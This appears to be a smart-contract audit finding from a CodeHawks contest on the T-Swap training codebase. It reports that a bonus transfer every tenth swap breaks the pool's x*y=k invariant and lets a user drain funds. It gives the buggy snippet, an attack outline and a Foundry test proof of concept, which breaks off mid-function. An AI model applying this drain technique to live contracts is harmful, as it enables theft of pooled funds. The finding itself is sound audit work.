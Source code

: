 
## Proof of Finding
https://codehawks.cyfrin.io/c/2024-06-t-swap/s/129
<img width="1034" alt="image" src="https://github.com/user-attachments/assets/44859785-8c9e-4366-8538-3bcc1e1a6d2c" />


### Relevant GitHub Links

https://github.com/Cyfrin/2024-06-t-swap/blob/d1783a0ae66f4f43f47cb045e51eca822cd059be/src/TSwapPool.sol#L397C1-L401C10

## Description: The protocol follows a strict invariant of `x * y = k`. Where:

- `x`: The balance of the pool token
- `y`: The balance of WETH
- `k`: The constant product of the two balances

This means, that whenever the balances change in the protocol, the ratio between the two amounts should remain constant, hence the `k`. However, this is broken due to the extra incentive in the `_swap` function. Meaning that over time the protocol funds will be drained.

The follow block of code is responsible for the issue.

```javascript
swap_count++;
if (swap_count >= SWAP_COUNT_MAX) {
  swap_count = 0;
  outputToken.safeTransfer(msg.sender, 1_000_000_000_000_000_000);
}
```

## Impact:

A user could maliciously drain the protocol of funds by doing a lot of swaps and collecting the extra incentive given out by the protocol.

Most simply put, the protocol's core invariant is broken.

## Proof of Concept:

1. A user swaps 10 times, and collects the extra incentive of `1_000_000_000_000_000_000` tokens
2. That user continues to swap untill all the protocol funds are drained

## Proof Of Code

Place the following into `TSwapPool.t.sol`.

```javascript

    function testInvariantBroken() public {
        vm.startPrank(liquidityProvider);
        weth.approve(address(pool), 100e18);
        poolToken.approve(address(pool), 100e18);
        pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
        vm.stopPrank();

        uint256 outputWeth = 1e17;

        vm.startPrank(user);
        poolToken.approve(address(pool), type(uint256).max);
        poolToken.mint(user, 100e18);
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
```